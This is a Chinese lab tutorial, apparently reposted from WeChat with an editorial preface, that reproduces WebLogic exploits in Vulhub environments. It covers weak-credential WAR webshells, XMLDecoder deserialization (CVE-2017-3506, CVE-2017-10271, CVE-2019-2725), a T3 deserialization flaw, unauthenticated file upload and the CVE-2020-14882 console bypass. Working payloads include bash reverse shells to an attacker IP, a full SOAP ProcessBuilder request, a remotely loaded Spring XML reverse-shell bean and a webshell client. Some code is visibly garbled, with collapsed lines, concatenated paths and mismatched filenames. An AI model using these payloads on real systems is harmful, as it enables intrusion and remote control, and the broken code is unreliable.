# 干货 - 最全的 Weblogic 漏洞复现

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Vulhub deliberately weak credentials, multiple unpatched SOAP/T3/Console branches and enabled test pages
- 证据范围：Independent tutorial/source commentary shares standard lab content but is not a literal duplicate. Strong image dependence and severe one-line code loss.

### 本次正文校订

- 按实际内容修正 4 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- All endpoint lists concatenated into one invalid path
- Python client entire file collapsed after shebang, not executable source
- 2725 GET-with-SOAP-body request collapsed, duplicate headers, missing XML attribute spacing and unescaped ampersands
- 2725 text vaguely describes bypassing its own fix, losing distinction with later bypass
- Enabling Web Service Test Page does not switch domain into development mode
- 14882 section omits14883 and falsely calls touch-created file a directory
- Docker commands concatenated; Spring XML begins #comment syntax and filename reverse-bash.xml differs test.xml
- Five-attempt lockout and current12c claims need historical/config qualifiers
- No remediation section for most vulnerabilities or cleanup of persistent artifacts
- Advertisement and repeated recommendations should be trimmed

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rxDUTzjWQ6ybMbGsGHk6_Q)

简介
==

WebLogic 是美国 Oracle 公司出品的一个 application server，确切的说是一个基于 JAVAEE 架构的中间件，WebLogic 是用于开发、集成、部署和管理大型分布式 Web 应用、网络应用和数据库应用的 Java 应用服务器。将 Java 的动态功能和 Java Enterprise 标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

**WebLogic** 是美商 Oracle 的主要产品之一，是并购 BEA 得来。是商业市场上主要的 Java（J2EE）应用服务器软件（application server）之一，是世界上第一个成功商业化的 J2EE 应用服务器, 已推出到 12c(12.2.1.4) 版。而此产品也延伸出 WebLogic Portal，WebLogic Integration 等企业用的中间件（但当下 Oracle 主要以 Fusion Middleware 融合中间件来取代这些 WebLogic Server 之外的企业包），以及 OEPE(Oracle Enterprise Pack for Eclipse) 开发工具。

本文将对一些常见的 weblogic 漏洞进行漏洞分析及复现，漏洞环境基于 vulhub 搭建。

弱口令
===

漏洞原理
----

在 weblogic 搭建好之后没有修改进入后台的密码导致弱口令登录获得 webshell

漏洞复现
----

进入`weak_password`的 docker 环境



访问一下 7001 端口，这里出现 404 是正常的



访问 http://192.168.1.10:7001/console 如下图所示



这里注意一下不能使用 bp 抓包去爆破，错误密码 5 次之后就会自动锁定，这里使用 weblogic/Oracle@123 登陆后台



登录后台后点击部署



点击安装



点击上传文件



这里需要准备一个 war 包，这个 war 包里面存放的就是一个 jsp 的马，使用如下命令打包当前文件夹下的所有文件

```
jar -cvf aaa.war .
```



然后上传 aaa.war 点击下一步



一直 Next 即可



到这里点击完成



可以看到这里 aaa.war 已经部署成功



直接上冰蝎连接即可，这里 aaa 是我的 war 名，shell.jsp 是打包在 war 里面的文件



CVE-2017-3506
=============

XMLDecoder 反序列化漏洞 (CVE-2017-3506)

漏洞原理
----

在 / wls-wsat/CoordinatorPortType（POST）处构造 SOAP（XML）格式的请求，在解析的过程中导致 XMLDecoder 反序列化漏洞

**分析漏洞调用链**

weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest

weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld

weblogic.wsee.workarea.WorkContextXmlInputAdapter

先看一下 weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest 方法



第 43 行，将 localHeader1 变量带入到 readHeaderOld() 方法中。localHeader1 变量由第 41 行定义，其值为 work:WorkContext 标签包裹的数据。

```
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">        <java> ...      </java>     </work:WorkContext>
```



跟进 readHeaderOld() 方法（weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld）



在 106 行，有一句 new WorkContextXmlInputAdapter(new ByteArrayInputStream(localByteArrayOutputStream.toByteArray()))，创建了 WorkContextXmlInputAdapter() 对象（即对 WorkContextXmlInputAdapter 类进行了实例化），带入构造函数的参数即为传入的 XML 格式序列化数据。

跟进至 WorkContextXmlInputAdapter 类中（weblogic.wsee.workarea.WorkContextXmlInputAdapter ）



第 19 行，此处通过 XMLDecoder 反序列化，输入内容可控，故漏洞产生。

漏洞复现
----

这里使用的`weak_password`环境 weblogic 的版本为 10.3.6，也存在这个漏洞，所以继续使用这个 docker


访问以下目录中的一种，有回显如下图可以判断 wls-wsat 组件存在

```
/wls-wsat/CoordinatorPortType/wls-wsat/RegistrationPortTypeRPC/wls-wsat/ParticipantPortType/wls-wsat/RegistrationRequesterPortType/wls-wsat/CoordinatorPortType11/wls-wsat/RegistrationPortTypeRPC11/wls-wsat/ParticipantPortType11/wls-wsat/RegistrationRequesterPortType11
```



在当前页面抓包之后在标签之间分别写存放 jsp 的路径和要写入的 shell



然后直接冰蝎连接即可



CVE-2017-10271
==============

XMLDecoder 反序列化漏洞 (CVE-2017-10271)

漏洞原理
----

在 CVE-2017-3506 之前，不对 payload 进行验证，使用 object tag 可以 RCE，CVE-2017-3506 的补丁在`weblogic/wsee/workarea/WorkContextXmlInputAdapter.java`中添加了 validate 方法，在解析 xml 时，Element 字段出现 object tag 就抛出运行时异常，不过这次防护力度不够，导致了 CVE-2017-10271，利用方式类似，使用了 void tag 进行 RCE，于是 CVE-2017-10271 的补丁将 object、new、method 关键字加入黑名单，针对 void 和 array 这两个元素是有选择性的抛异常，其中当解析到 void 元素后，还会进一步解析该元素中的属性名，若没有匹配上 index 关键字才会抛出异常。而针对 array 元素而言，在解析到该元素属性名匹配 class 关键字的前提下，还会解析该属性值，若没有匹配上 byte 关键字，才会抛出运行时异常。总之，这次的补丁基本上限定了不能生成 java 实例。

漏洞复现
----

进入 CVE-2017-10271 对应的 docker 环境



访问 http://192.168.1.10:7001/wls-wsat/CoordinatorPortType 如下图所示则存在漏洞



bp 在当前页面抓包后使用 bash 命令反弹 shell，nc 开启端口即可

```
/bin/bash-cbash -i >& /dev/tcp/192.168.1.2/5555 0>&1
```



CVE-2019-2725
=============

wls-wsat 反序列化漏洞 (CVE-2019-2725)。攻击者可以发送精心构造的恶意 HTTP 请求，在未授权的情况下远程执行命令。

漏洞原理
----

漏洞触发点：bea_wls9_async_response.war、wsat.war

影响版本：Oracle WebLogic Server 10.* 、Oracle WebLogic Server 12.1.3

通过 CVE-2019-2725 补丁分析发现，较上一个漏洞 CVE-2017-10271 补丁而言，官方新增了对 class 元素的过滤，并且 array 元素的 length 属性转换为整形后不得大于 10000：



本次漏洞利用某个元素成功替换了补丁所限制的元素，再次绕过了补丁黑名单策略，最终造成远程命令执行。

漏洞复现
----

访问以下目录中的一种，如下图所示则漏洞

```
/_async/AsyncResponseService/_async/AsyncResponseServiceJms/_async/AsyncResponseServiceHttps/_async/AsyncResponseServiceSoap12/_async/AsyncResponseServiceSoap12Jms/_async/AsyncResponseServiceSoap12Https
```



bp 在当前页面抓包，使用 bash 命令反弹 shell，nc 开启端口监听即可

```http
GET /_async/AsyncResponseService HTTP/1.1Host: 192.168.1.10:7001User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closeUpgrade-Insecure-Requests: 1Cache-Control: max-age=0Content-Length: 782Accept-Encoding: gzip, deflateSOAPAction:Accept: */*User-Agent: Apache-HttpClient/4.1.1 (java 1.5)Connection: keep-alivecontent-type: text/xml<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"xmlns:asy="http://www.bea.com/async/AsyncResponseService"><soapenv:Header><wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>bash -i >& /dev/tcp/192.168.1.2/5555 0>&1</string></void></array><void method="start"/></void></work:WorkContext></soapenv:Header><soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```



CVE-2018-2628
=============

WebLogic T3 协议反序列化命令执行漏洞 (CVE-2018-2628)。Oracle WebLogic Server 的 T3 通讯协议的实现中存在反序列化漏洞。远程攻击者通过 T3 协议在 Weblogic Server 中执行反序列化操作，利用 RMI（远程方法调用） 机制的缺陷，通过 JRMP 协议（Java 远程方法协议）达到执行任意反序列化代码，进而造成远程代码执行

同为 WebLogic T3 引起的反序列化漏洞还有 CVE-2015-4852、CVE-2016-0638、CVE-2016-3510、CVE-2017-3248、CVE-2018-2893、CVE-2016-0638

漏洞原理
----

在 InboundMsgAbbrev 中 resolveProxyClass 中，resolveProxyClass 是处理 rmi 接口类型的，只判断了 java.rmi.registry.Registry，这就会导致任意一个 rmi 接口都可绕过。核心部分就是 JRMP（Java Remote Method protocol），在这个 PoC 中会序列化一个 RemoteObjectInvocationHandler，它会利用 UnicastRef 建立到远端的 tcp 连接获取 RMI registry，加载回来再利用 readObject 解析，从而造成反序列化远程代码执行。

漏洞复现
----

进入 CVE-2018-2628 的 docker 环境



这里先使用 nmap 扫描一下是否开启了 WebLogic T3 服务

```shell
nmap -n -v -p 7001,7002 192.168.1.10 --script=weblogic-t3-info
```



这里使用 K8Weblogic.exe 直接写一个 shell 进去



然后使用以下 py 获取一个交互型 shell

```
#!/usr/bin/env python# -*- coding: utf-8 -*-print r'''https://github.com/jas502n/CVE-2018-2628@author Jas502n'''import base64import urllibimport requestsfrom urllib import *def shell(url,cmd):    all_url = url + "?tom=" + base64.b64encode(cmd)    try:        result = requests.get(all_url)        if result.status_code == 200:            print result.content    except requests.ConnectionError,e:        print eth = {"url":""}while True:    if th.get("url") != "":        input_cmd = raw_input("cmd >>: ")        if input_cmd == "exit":            exit()        elif input_cmd == 'set':            url = raw_input("set shell :")            th['url'] = url        elif input_cmd == 'show url':            print th.get("url")        else:            shell(th.get("url"),input_cmd)    else:        url = raw_input("set shell :")        th["url"] = url
```

url 这个位置就填之前 exe 上传 shell 的位置即可，拿到交互 shell 之后可以 echo 写一个冰蝎马或者 powershell 上线 cs 都可



CVE-2018-2894
=============

WebLogic 未授权访问漏洞 (CVE-2018-2894)，存在两个未授权的页面，可以上传任意文件，但是这两个页面只在开发环境下存在

漏洞原理
----

在 ws-testpage-impl.jar/com.oracle.webservices.testclient.ws.res.WebserviceResource 类中存在 importWsTestConfig 方法



跟进 RSdataHelper 的 convertFormDataMultiPart 方法，接下来调用 convertFormDataMultiPart 方法，文件直接由字段 文件名拼接而成，没有任何限制。

ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/util/RSDataHelper.class:164



漏洞复现
----

进入 CVE-2018-2894 的 docker 环境



这里我们首先打开 docker 的开发环境。这里因为不是弱口令的 docker，所以这里我们执行命令看一下进入后台的密码

```shell
docker-compose logs | grep password
```



使用得到的密码登入后台



点击高级选项



勾选启用 web 服务测试页



保存即可进入开发环境



开发环境下的测试页有两个，分别为`config.do`和`begin.do`

首先进入`config.do`文件进行设置，将目录设置为`ws_utc`应用的静态文件 css 目录，访问这个目录是无需权限的，这一点很重要。

```
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css
```



点击添加后上传一个 jsp



提交之后点击 F12 审查元素得到 jsp 上传后的时间戳



构造得到 http://192.168.1.10:7001/ws_utc/css/config/keystore/1626765378314_shell.jsp，连接即可



这里我们在对`begin.do`未授权访问进行利用。访问 http://192.168.1.10:7001/ws_utc/begin.do，上传一个 jsp



点击提交，这里辉显示一个 error 不用管它，F12 进入网络，然后筛选 POST 方法，得到一个 jsp 的路径



构造得到 http://192.168.1.10:7001/ws_utc/css/upload/RS_Upload_2021-07-20_07-21-28_111/import_file_name_shell.jsp，冰蝎连接即可



CVE-2020-14882
==============

漏洞原理
----

这个洞的利用过程十分精妙，说实话有点没太跟明白，这里就不详细写了，大致就是通过访问`console.portal`路径并且触发`handle`执行。有兴趣的小伙伴请移步：

https://cert.360.cn/report/detail?id=a95c049c576af8d0e56ae14fad6813f4

漏洞复现
----

首先进入 CVE-2020-14882 的 docker 环境



访问控制台如图所示



这里直接可以构造

http://192.168.1.10:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29

访问即可进入后台，达到未授权访问的效果

但是这里没有部署安装的按钮，也就是说不能像常规进入后台后写 shell 进去，这里就需要用到远程加载 XML 文件拿 shell



首先测试以下漏洞代码执行是否成功，在 / tmp / 下创建一个 test 文件夹

访问 http://192.168.1.10:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/test%27);%22);

得到如下界面，这里看起来没有利用成功



我们进入 docker 查看发现文件夹已经创建成功了

```shell
docker pssudodocker exec -it b6a1b6c3e4d1 /bin/bash
```



这里创建一个 xml 文件，还是使用 bash 命令得到反弹 shell

```
# reverse-bash.xml<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd"><bean id="pb" class="java.lang.ProcessBuilder" init-method="start"><constructor-arg><list><value>/bin/bash</value><value>-c</value><value><![CDATA[bash -i >& /dev/tcp/192.168.1.2/5555 0>&1]]></value></list></constructor-arg></bean></beans>
```



nc 开启监听端口，访问

http://192.168.1.10:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://192.168.1.2:8000/test.xml")

即可得到反弹 shell



总结
==

weblogic 的漏洞其实有很多，这里只是挑了一些比较常见的漏洞进行漏洞分析和复现，其实也有批量检测漏洞的软件，这里为了加深印象还是手动复现了一遍，这里漏洞分析这一块当然也是跟着大佬们的思路跟下去，这里对前辈们表示衷心的感谢，不足之处欢迎指出。

****

**推荐阅读：**

[内网渗透 | 横向移动中 MSTSC 的密码获取](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498288&idx=1&sn=851640e1e271c348c195bdb7400d62cc&chksm=ec1caf0fdb6b261935f92e8e3458ac01ef27f323668098bc12edb462db60fd9c1c27217a8e21&scene=21#wechat_redirect)  

[内网渗透｜域内的组策略和 ACL](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498685&idx=1&sn=1bd6fe9cadc922422de5cabf83f85cea&chksm=ec1cae82db6b2794c8bc997921742492fe52832d0436718f2f570a173e43a837c65987b93e8a&scene=21#wechat_redirect)  

[内网渗透 | 横向移动中 MSTSC 的密码获取](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498288&idx=1&sn=851640e1e271c348c195bdb7400d62cc&chksm=ec1caf0fdb6b261935f92e8e3458ac01ef27f323668098bc12edb462db60fd9c1c27217a8e21&scene=21#wechat_redirect)  

[内网渗透 | 横向移动总结](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497834&idx=1&sn=286a1c50c6affd64642c55335ab499f2&chksm=ec1cad55db6b2443f5c864ef82c01464d6feb2c7730908746ce56ef661f02d2167f6288d333a&scene=21#wechat_redirect)  

[内网渗透｜谈谈 HASH 传递那些世人皆知的事](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498414&idx=1&sn=80cc6d6cea9b396fb86b0bdf8b503431&chksm=ec1caf91db6b2687883795f42319c7a9ecae02f9b6cac7a02d413ada5ea01528759e0149cf6b&scene=21#wechat_redirect)  

本月报名可以参加抽奖送 BADUSB 的优惠活动  

  
[](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498688&idx=1&sn=d81921a3873e254b0a135d9ffaa00468&chksm=ec1caeffdb6b27e9d129e1b00e92e01d49ccca43bb18f2388c733143557bfaaf62d0efd7f22f&scene=21#wechat_redirect)

**点赞，转发，在看**

原创投稿作者：mathwizard


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
